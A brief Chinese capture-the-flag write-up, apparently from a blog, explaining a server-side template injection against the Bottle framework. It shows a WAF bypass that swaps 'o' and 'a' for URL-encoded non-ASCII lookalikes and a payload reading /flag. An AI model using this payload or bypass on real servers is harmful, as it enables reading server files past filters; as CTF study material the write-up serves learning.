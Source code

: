 ![image-20250418141321411](../assets/image-20250418141321411.png)

这题主要是由于bottle框架中对编码检查的不严谨，所以可以利用python中会将exec执行的代码中的斜体字转换为对应的ASCII字符的特性来绕过waf。但是由于url编码问题，题目环境中只有o和a能够成功。

![image-20250418142516624](../assets/image-20250418142516624.png)

详细的得看lamentxu师傅的博客。

 所以这题我们就可以把

```
'o'替换为'%ba',
'a'替换为'%aa',
```

 payload

```
{{open('/flag').read()}}
替换
{\{%bapen('/flag').read()}}  //这里的"\"是防止hugo报错加的，实际不需要
```

![image-20250418142714072](../assets/image-20250418142714072.png)                           

